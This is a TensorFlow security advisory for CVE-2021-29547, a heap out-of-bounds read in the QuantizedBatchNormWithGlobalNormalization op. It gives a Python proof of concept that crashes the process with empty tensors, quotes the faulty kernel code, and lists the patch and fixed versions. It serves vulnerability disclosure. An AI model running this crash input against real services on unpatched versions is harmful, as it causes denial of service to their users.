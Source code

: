## TFSA-2021-035: Heap out of bounds in `QuantizedBatchNormWithGlobalNormalization`

### CVE Number
CVE-2021-29547

### Impact
An attacker can cause a segfault and denial of service via accessing data
outside of bounds in `tf.raw_ops.QuantizedBatchNormWithGlobalNormalization`:

```python
import tensorflow as tf

t = tf.constant([1], shape=[1, 1, 1, 1], dtype=tf.quint8)
t_min = tf.constant([], shape=[0], dtype=tf.float32)
t_max = tf.constant([], shape=[0], dtype=tf.float32)
m = tf.constant([1], shape=[1], dtype=tf.quint8)
m_min = tf.constant([], shape=[0], dtype=tf.float32)
m_max = tf.constant([], shape=[0], dtype=tf.float32)
v = tf.constant([1], shape=[1], dtype=tf.quint8)
v_min = tf.constant([], shape=[0], dtype=tf.float32)
v_max = tf.constant([], shape=[0], dtype=tf.float32)
beta = tf.constant([1], shape=[1], dtype=tf.quint8)
beta_min = tf.constant([], shape=[0], dtype=tf.float32)
beta_max = tf.constant([], shape=[0], dtype=tf.float32)
gamma = tf.constant([1], shape=[1], dtype=tf.quint8)
gamma_min = tf.constant([], shape=[0], dtype=tf.float32)
gamma_max = tf.constant([], shape=[0], dtype=tf.float32)

tf.raw_ops.QuantizedBatchNormWithGlobalNormalization(
  t=t, t_min=t_min, t_max=t_max, m=m, m_min=m_min, m_max=m_max,
  v=v, v_min=v_min, v_max=v_max, beta=beta, beta_min=beta_min,
  beta_max=beta_max, gamma=gamma, gamma_min=gamma_min,
  gamma_max=gamma_max, out_type=tf.qint32,
  variance_epsilon=0.1, scale_after_normalization=True)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/55a97caa9e99c7f37a0bbbeb414dc55553d3ae7f/tensorflow/core/kernels/quantized_batch_norm_op.cc#L176-L189)
assumes the inputs are not empty:

```cc
const float input_min = context->input(1).flat<float>()(0);
const float input_max = context->input(2).flat<float>()(0);
...
const float mean_min = context->input(4).flat<float>()(0);
const float mean_max = context->input(5).flat<float>()(0);
...
const float var_min = context->input(7).flat<float>()(0);
const float var_max = context->input(8).flat<float>()(0);
...
const float beta_min = context->input(10).flat<float>()(0);
const float beta_max = context->input(11).flat<float>()(0);
...
const float gamma_min = context->input(13).flat<float>()(0);
const float gamma_max = context->input(14).flat<float>()(0);
```

If any of these inputs is empty, `.flat<T>()` is an empty buffer, so accessing
the element at index 0 is accessing data outside of bounds.

### Patches
We have patched the issue in GitHub commit
[d6ed5bcfe1dcab9e85a4d39931bd18d99018e75b](https://github.com/tensorflow/tensorflow/commit/d6ed5bcfe1dcab9e85a4d39931bd18d99018e75b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
